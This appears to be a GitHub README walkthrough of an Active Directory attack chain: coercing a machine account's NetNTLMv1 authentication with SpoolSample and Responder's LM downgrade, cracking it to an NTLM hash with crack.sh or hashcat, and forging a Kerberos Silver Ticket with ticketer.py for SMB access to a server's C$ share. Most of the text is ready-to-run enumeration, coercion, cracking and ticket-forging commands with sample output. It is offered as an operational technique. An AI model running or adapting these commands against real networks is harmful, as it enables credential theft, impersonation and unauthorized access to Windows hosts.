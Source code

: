 # SpoolSample -> NetNTLMv1 -> NTLM -> Silver Ticket

This technique has been alluded to by others, but I haven't seen anything cohesive out there.  Below we'll walk through the steps of obtaining NetNTLMv1 Challenge/Response authentication, cracking those to NTLM Hashes, and using that NTLM Hash to sign a Kerberos Silver ticket.

This will work on networks where "LAN Manager authentication level" is set to 2 or less. This is a fairly common scenario in older, larger Windows deployments.  It should not work on Windows 10 / Server 2016 or newer.

## There are 3 main steps

Obtain a NetNTLMv1 Response of a machine account vis @tifkin_'s (Lee Christensen's) SpoolSample

Crack that NetNTLMv1 Response back into an NTLM Hash using @0x31337's (David Hulton's) Rainbow Tables

Generate a Silver Ticket using the newly obtained NTLM Hash using @agsolino's (Albert Solino's) ticketer.py

## Obtain a NetNTLMv1 Response

### Identify potentially vulnerable machines

Using Powershell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

    Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening

    ForEach ($server in Get-Content servers.txt) {Get-SpoolSample $server}

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

    rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN

### Start Responder with the --lm flag to force a LM downgrade

    ./Responder.py -I eth0 --lm

### Trigger an authentication

    SpoolSample.exe TARGET RESPONDERIP

or use 3xocyte's dementor.py if you're on Linux

    python dementor.py -d domain -u username -p password RESPONDERIP TARGET

Example Response:

```bash
[SMB] NTLMv1 Client   : 10.0.0.2
[SMB] NTLMv1 Username : DOMAIN\SERVER$
[SMB] NTLMv1 Hash     : SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

## Crack the NetNTLMv1 responses back into an NTLM Hash

You can use a set of Rainbow Tables to reverse the NTHASH to NTLM, or you can reverse it to its DES constituent components and crack it with hashcat.  

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables.

### Rainbow Tables

1. For Rainbow Tables, there is a service hosted at [https://crack.sh/netntlm/](https://crack.sh/netntlm/) that will recover NTLM from NetNTLMv1 for free. This is provided by David Hulton of Toorcon.  We're working on a local copy of the rainbow tables and software that does not require and FPGA for lookups.

2. For crack.sh, the format is
     NTHASH:(response), so NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972 from the example.

### Or Cracking Them with hashcat

1. @evil_mog's [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool below can break them

```bash
python ntlmv1.py --nossp SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

This will return the below output with instructions:

```bash
Hashfield Split:
['SERVER$', '', 'DOMAIN', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', '1122334455667788']

Hostname: DOMAIN
Username: SERVER$
Challenge: 1122334455667788

LM Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
NT Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

CT1: F35A3FE17DCB31F9
CT2: BE8A8004B3F310C1
CT3: 50AFA36195554972

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 50AFA36195554972 1122334455667788


To crack with hashcat create a file with the following contents:
F35A3FE17DCB31F9:1122334455667788
BE8A8004B3F310C1:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## Create a Kerberos Silver Ticket

You'll need to find a few pieces of information for this: SPN of the service you want to access, domain SID, domain user account SID and account name with local admin access, and a domain group that user is a member of if it's group-based local admin.

For the service, the most common will be cifs/ as it maps back to the HOST/ service

### Generate a Silver Ticket using Impacket's ticketer.py

```bash
./ticketer.py -nthash 09e55a127f3d4e4957c77de30000502a -domain-sid S-1-5-21-7375663-6890924511-1272660413 -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
```

### Set the generated ccache file to the appropriate environment variable

```bash
export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache
```

### Use smbclient, wmiexec,  psexec, or any other impacket tool

```bash
smbclient -k //SERVER.DOMAIN.COM/c$ -d
```

## Work left to do

* Distribute 6TB of Rainbow Tables
  * Torrent w/@0x31337's Permission?
  * DEF CON Data Duplication Village?

* Modify @0x31337's [desrtop](https://github.com/h1kari/desrtop) to not require an FPGA
  * Outside my personal wheelhouse, but I'm grinding anyway

* Identify more ways to trigger a machine account authentication remotely
  * xp_dirtree is another path
  * Anyone willing to share others they may have found?
